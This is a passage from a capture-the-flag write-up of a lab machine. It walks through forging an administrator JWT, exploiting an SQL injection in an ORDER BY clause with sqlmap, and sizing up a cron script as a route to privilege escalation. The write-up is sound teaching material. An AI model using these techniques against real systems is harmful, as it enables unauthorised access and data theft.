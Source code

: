 We insert our current user JWT token in our script and run it. This will then print out a new JWT that has the `administrator` role and should be able to access the admin panel. Further along in the code of `app.py` there is also an SQL Injection vulnerability in the `admindashboard` endpoint.

```python
# added option to order the reservations
order_query = request.args.get('o', '')

sql = f"SELECT * FROM appointments WHERE appointment_email LIKE %s order by appointment_date {order_query}"
```

# Foothold
Let's perform a search query on the admin dashboard and intercept the request with BurpSuite. We can confirm the SQL Injection by making the server sleep for several seconds.

![](../assets/images/writeups/yummy/SQLI.png)

By using SQLMap we can check our user privileges:

```console
$ sqlmap -r request --privileges

[15:27:11] [INFO] retrieved: 'FILE'
database management system users privileges:
[*] 'chef'@'localhost' [1]:
    privilege: FILE
```

We have `FILE` permissions, meaning we can read and write arbitrary files. Remember we still have a couple of cron scripts we haven't looked at yet, one of which is the `dbmonitor.sh` script owned by the `mysql` user. After we download this file via the same method as before, some things stand out.

```bash
<SNIP>
    if [ -f /data/scripts/dbstatus.json ]; then
        if grep -q "database is down" /data/scripts/dbstatus.json 2>/dev/null; then
            /usr/bin/echo "The database was down at $timestamp. Sending notification."
            /usr/bin/echo "$service was down at $timestamp but came back up." | /usr/bin/mail -s "$service was down!" root
            /usr/bin/rm -f /data/scripts/dbstatus.json
        else
            /usr/bin/rm -f /data/scripts/dbstatus.json
            /usr/bin/echo "The automation failed in some way, attempting to fix it."
            latest_version=$(/usr/bin/ls -1 /data/scripts/fixer-v* 2>/dev/null | /usr/bin/sort -V | /usr/bin/tail -n 1)
            /bin/bash "$latest_version"
        fi
    else
```